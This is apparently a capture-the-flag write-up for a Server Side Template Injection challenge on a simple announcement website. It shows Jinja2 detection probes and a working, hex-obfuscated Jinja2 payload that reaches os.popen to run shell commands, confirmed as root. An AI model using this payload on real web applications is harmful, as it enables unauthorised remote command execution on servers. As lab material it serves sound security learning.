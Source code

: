 - Description

    I made a cool website where you can announce whatever you want! Try it out!
    I heard templating is a cool and modular way to build web apps! Check out my website here!

- Hints
    `1. Server Side Template Injection`

    ![alt text](image-5.png)

- To solve this SSTI problem, you first need to know about it. You can read [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

    ![alt text](image.png)

- I try payload `{{ 7 * 7 }}` and `{{ 7 * '7' }}`to detect the web template engine (Jinja2 if 7*'7' returns 7777777)

    ![alt text](image-1.png)

- I used payload. You can refer to at [here](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

    ```python3
    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
    ```
    
    - The site returns the user id as `root`

    ![alt text](image-2.png)

    - Now you can execute the payload (Replace `id`)

    - Listing the dir

    ![alt text](image-3.png)

    - Read the flag

    ![alt text](image-4.png)